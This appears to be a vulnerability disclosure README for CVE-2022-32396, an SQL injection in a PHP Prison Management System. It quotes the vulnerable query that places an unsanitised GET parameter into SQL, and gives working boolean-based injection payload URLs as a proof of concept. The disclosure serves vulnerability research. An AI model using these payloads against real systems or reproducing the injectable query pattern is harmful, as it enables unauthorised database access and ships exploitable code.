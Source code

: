 # CVE-2022-32396
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/visits/manage_visit.php:4`
```php
$qry = $conn->query("SELECT * from `visit_list` where id = '{$_GET['id']}' ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/visits/manage_visit.php?id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/visits/manage_visit.php?id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32396_true.png)
- False : 
`http://localhost/pms/admin/visits/manage_visit.php?id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32396_false.png)